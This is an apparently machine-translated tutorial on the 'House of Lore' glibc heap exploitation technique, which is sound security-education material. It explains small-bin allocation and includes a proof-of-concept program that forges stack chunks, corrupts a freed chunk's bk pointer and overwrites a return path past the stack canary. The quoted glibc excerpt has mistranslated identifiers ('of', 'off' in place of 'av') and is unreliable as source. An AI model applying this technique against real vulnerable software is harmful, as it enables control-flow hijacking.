 # House of Lore



## Overview


The House of Lore attack is closely related to the mechanism of Small Bin in Glibc heap management.


House of Lore can modify the memory of any address by assigning chunks of any specified location.


House of Lore takes advantage of the need to control the bk pointer of Small Bin Chunk and control the fd pointer of the chunk at the specified location.


## Fundamental


If at malloc, the requested memory block is in the range of small bin, then the execution process is as follows


```c
    /*
       If a small request, check regular bin.  Since these "smallbins"
       hold one size each, no searching within bins is necessary.
       (For a large request, we need to wait until unsorted chunks are
       processed to find best fit. But for small ones, fits are exact
       anyway, so we can check now, which is faster.)
     */

    if (in_smallbin_range(nb)) {
        // Get the index of the small bin
        idx = smallbin_index(nb);
        // Get the corresponding chunk pointer in the small bin
        bin = bin_at (av, idx);
        // First execute victim= last(bin) to get the last chunk of the small bin
        // If victim = bin , then the bin is empty.
        // If they are not equal, then there will be two cases
        if ((victim = last(bin)) != bin) {
            // In the first case, the small bin has not yet been initialized.
            if (victim == 0) /* initialization check */
                // Perform initialization to merge chunks in fast bins
                malloc_consolidate (of);
            // In the second case, there is a free chunk in the small bin
            else {
                // Get the second-to-last chunk in the small bin.
                bck = victim->bk;
                // Check if bck->fd is victim, prevent forgery
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // Set the corresponding inuse bit of victim
                set_inuse_bit_at_offset(victim, nb);
                // Modify the small bin list, take the last chunk of the small bin
                bin-> bk = bck;
                bck->fd = bin;
                // If it is not main_arena, set the corresponding flag
                if (av != &main_arena) set_non_main_arena(victim);
                // Detailed inspection
                check_malloced_chunk (off, victim, nb);
                // Convert the requested chunk to the corresponding mem state
                void *p = chunk2mem(victim);
                // If perturb_type is set, the obtained chunk is initialized to perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }
```



We can see from this part below


```c
                // Get the second-to-last chunk in the small bin.
                bck = victim->bk;
                // Check if bck->fd is victim, prevent forgery
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // Set the corresponding inuse bit of victim
                set_inuse_bit_at_offset(victim, nb);
                // Modify the small bin list, take the last chunk of the small bin
                bin-> bk = bck;
                bck->fd = bin;
```



If we can modify the bk of the last chunk of the small bin to specify the fake chunk of the memory address, and at the same time satisfy the detection of bck->fd != victim, then we can make the bk of the small bin just construct for us. Fake chunk. In other words, the next time we apply for the small bin, we will assign the fake chunk to the specified location.


## Sample Code


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  fprintf(stderr, "\nWelcome to the House of Lore\n");
  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  fprintf(stderr, "This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);

  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  fprintf(stderr, "stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  fprintf(stderr, "stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  fprintf(stderr, "Create a fake chunk on the stack");
  fprintf(stderr, "Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  fprintf(stderr, "Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;

  fprintf(stderr, "Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);
  fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);


  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);

  fprintf(stderr, "\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  fprintf(stderr, "Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  fprintf(stderr, "This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);
  fprintf(stderr, "The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  fprintf(stderr, "The victim chunk has been sorted and its fwd and bk pointers updated\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");
  fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

  void *p3 = malloc(100);


  fprintf(stderr, "This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);
  fprintf(stderr, "p4 = malloc(100)\n");

  fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  fprintf(stderr, "\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
  intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
  memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
}
```

The above code has been made very clear and will not be explained.

** But what needs to be noted is: **

1. `void *p5 = malloc(1000);` is to prevent merge with top_chunk after victim_chunk.

2. `free((void*)victim)`, victim will be put into the unsort bin, and if the size of the next allocation is larger than this, the corresponding size will be allocated from the top chunk, and the chunk will be Remove the link to the appropriate bin. If it is smaller than this (equal returns directly), the corresponding size is cut off from the chunk, and the corresponding chunk is returned, and the rest becomes the last reminder chunk, or there is an unsorted bin.


## references


- [https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_lore.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_lore.c)